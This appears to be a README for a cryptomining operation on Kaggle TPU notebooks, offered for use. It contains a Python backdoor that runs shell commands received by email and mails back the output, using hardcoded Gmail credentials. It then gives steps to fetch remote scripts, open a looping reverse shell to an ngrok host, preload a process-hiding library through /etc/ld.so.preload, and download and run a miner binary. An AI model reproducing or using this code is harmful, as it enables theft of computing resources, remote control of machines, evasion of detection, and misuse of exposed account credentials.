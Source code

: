 # miner
1. apt install python3.9-venv
2. python3 -m venv v
3. source v/bin/activate

## 444
TPU 96 Core https://www.kaggle.com/
register with gmail
verify phone number format : 081245754875
run code:
====================================>

import imaplib
import email
import smtplib
import subprocess
import time

# email account details
imap_username_from_client = "brunobrail335@gmail.com"
imap_password = "dimgwmkmtwsiaaiw"
smtp_username = "duejohn825@gmail.com"
smtp_password = "vekktzscbyhfvadv"
imap_server="imap.gmail.com"

while True:
    try:

        imap = imaplib.IMAP4_SSL(imap_server)
        imap.login(imap_username_from_client, imap_password)
        imap.select("inbox")
        status, messages = imap.search(None, "UNSEEN")
        if messages[0]:
            latest_message = messages[0].split()[-1]
            _, msg = imap.fetch(latest_message, "(RFC822)")
            email_message = email.message_from_bytes(msg[0][1])
            for part in email_message.walk():
                if part.get_content_type() == "text/plain":
                    body = part.get_payload(decode=True).decode()
                    result_byte = (
                        subprocess.run(body, shell=True, stdout=subprocess.PIPE,
                                       stderr=subprocess.PIPE).stdout).decode(
                        'utf-8')
                    break
            msg = email.message.EmailMessage()
            msg.set_content(result_byte)
            msg['Subject'] = 'Result of command'
            msg['From'] = imap_username_from_client
            msg['To'] = smtp_username

            # send email with result
            with smtplib.SMTP('smtp.gmail.com', 587) as smtp:
                smtp.starttls()
                smtp.login(smtp_username, smtp_password)
                smtp.send_message(msg)
        imap.close()
        imap.logout()
    except Exception as e:
        print(f"Error: {e}")

    # wait for 10 seconds before checking for new messages again
    time.sleep(2)
================================>
acces clinet  ==============> wget https://raw.githubusercontent.com/bulboni/minware/main/svr.py
create reverse shell ========> while true; do bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/10187 0>&1'; sleep 10; done
call net cat ================> nc -lnvp 4444
undo dyrectory kagle ==============> cd /kaggle
hide miner ========================> git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
call miner =========================> wget https://raw.githubusercontent.com/bulboni/minware/main/config.json && wget https://raw.githubusercontent.com/bulboni/minware/main/durex && chmod +x durex && ./durex
